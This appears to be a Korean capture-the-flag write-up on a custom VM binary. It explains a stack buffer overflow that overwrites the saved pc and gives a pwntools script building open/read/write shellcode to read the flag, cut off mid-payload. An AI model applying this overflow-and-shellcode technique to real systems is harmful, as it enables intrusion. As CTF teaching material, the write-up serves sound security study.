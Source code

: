 

올라가 있는 펌웨어를 분석한 결과를 요약하자면, 해당 바이너리는 그냥 입력을 받는 동작을 수행하는 간단한 바이너리일 뿐입니다. 사용자의 입력이 들어가는 부분이 가장 중요할 것이므로 요부분을 주의깊게 살펴보면 됩니다.

**디버깅**한 결과를 살펴보면, `read(0, 0xf5f9e, 0x42)`를 통해 입력받는 동작을 수행하는 것을 알 수 있습니다. 스택 공간 `0xf5f9e`에서부터 `0x42bytes`를 입력받습니다. 최대 `0xf5fe0`까지 입력받을 수 있는데, 사실 `0xf5fda`에 `bp`가 존재하며, `0xf5fdd`에 `pc`가 존재하므로 **bof** 를 일으킬 수 있습니다.

위에서 언급했다시피 본 문제의 **vm setting**에서 **NX**를 세팅해주지 않았기 때문에, 스택 상에서 코드의 실행이 가능합니다. **쉘코드**를 올린 뒤, `pc`를 변조시켜 기존 0x00이 아닌 올린 **쉘코드의 주소**로 가도록 값을 덮어씌우면 됩니당!

**shell**을 실행할 수는 없을 것 같고, 주어진 **syscall** 함수 내에서 `open() -> read() -> write() `를 통해 **flag**를 읽을 수 있을 것 같으니, 해당 동작을 수행하는 쉘코드를 만들어 봅시당



# Exploit

```python
#!/usr/bin/python
from pwn import *

def convert_r(opcode):
	res = ''
	res += chr((opcode >> 7) & 0b1111111)
	res += chr(opcode & 0b1111111)
	return res

def convert_i(oper):
	res = ''
	res += chr(oper & 0b1111111)
	res += chr((oper >> 14) & 0b1111111)
	res += chr((oper >> 7) & 0b1111111)
	return res

def patch(op, op_type, opers):
	opcode = (op << 9)
	opcode |= (op_type << 8)

	if op_type == 0: # TYPE_R  r0, r1
		opcode |= ((opers[0] & 0b00000000001111) << 4)
		opcode |= (opers[1] & 0b00000000001111)
		return convert_r(opcode)

	elif op_type == 1: # TYPE_I  r0, #1
		opcode |= ((opers[0] & 0b00000000001111) << 4)
		return convert_r(opcode) + convert_i(opers[1])

r = process('./vm_name.py')

payload = 'flag' + '\x00'
'''open("flag.txt")'''
payload += patch(4, 1, [1, 0xf5f9e]) # mov r1, AAA 
payload += patch(4, 1, [0, 0x01]) # mov r0, 1
payload += patch(8, 0, [0, 0]) # op 8 <= syscall 1

'''read(2, AAA, 0x20)'''
payload += patch(4, 1, [1, 0x02]) # mov r1, 2
payload += patch(4, 1, [2, 0xf5000]) # mov r2, AAA
payload += patch(4, 1, [3, 0x20]) # mov r3, 0x20
payload += patch(4, 1, [0, 0x03]) # mov r0, 3
payload += patch(8, 0, [0, 0]) # op 8 <= syscall 3

'''write(1, AAA, 0x20)'''
payload += patch(4, 1, [1, 0x01]) # mov r1, 1
```